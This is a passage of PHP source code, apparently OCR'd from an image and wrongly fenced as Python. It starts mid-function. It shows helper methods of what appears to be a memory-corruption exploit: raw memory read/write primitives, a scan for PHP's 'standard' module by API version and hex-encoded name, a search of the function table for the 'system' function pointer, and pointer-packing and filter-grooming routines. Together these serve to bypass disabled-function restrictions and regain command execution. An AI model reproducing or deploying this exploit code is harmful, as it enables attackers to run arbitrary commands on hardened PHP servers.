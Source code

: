 ```py
        if($n !== 8) { $value &= (1 << ($n << 3)) - 1; }
        return $value;
    }

    private function write($p, $v, $n = 8) {
        for($i = 0; $i < $n; $i++) {
            $this->abc[$p + $i] = chr($v & 0xff);
            $v >>= 8;
        }
    }

    private function get_basic_funcs($addr) {
        while(true) {
            $addr -= 0x10;
            if($this->read($addr, 4) === 0xA8 &&
                in_array($this->read($addr + 4, 4),
                    [20151012, 20160303, 20170718, 20180731, 20190902, 20200930])) {
                $module_name_addr = $this->read($addr + 0x20);
                $module_name = $this->read($module_name_addr);
                if($module_name === 0x647261646e617473) {
                    $this->log("standard module @ 0x%x", $addr);
                    return $this->read($addr + 0x28);
                }
            }
        }
    }

    private function get_system($basic_funcs) {
        $addr = $basic_funcs;
        do {
            $f_entry = $this->read($addr);
            $f_name = $this->read($f_entry, 6);
            if($f_name === 0x6d6574737973) {
                return $this->read($addr + 8);
            }
            $addr += 0x20;
        } while($f_entry !== 0);
    }

    private function cleanup() {
        $this->hfp = fopen('php://memory', 'w');
        fwrite($this->hfp, pack('QQ', 0, $this->abc_addr));
        for($i = 0; $i < FILTER_SIZE - 0x10; $i++) {
            fwrite($this->hfp, "\x00");
        }
    }

    private function str2ptr($p = 0, $n = 8) {
        $address = 0;
        for($j = $n - 1; $j >= 0; $j--) {
            $address <<= 8;
            $address |= ord($this->abc[$p + $j]);
        }
        return $address;
    }

    private function ptr2str($ptr, $n = 8) {
        $out = '';
        for ($i = 0; $i < $n; $i++) {
            $out .= chr($ptr & 0xff);
            $ptr >>= 8;
        }
        return $out;
```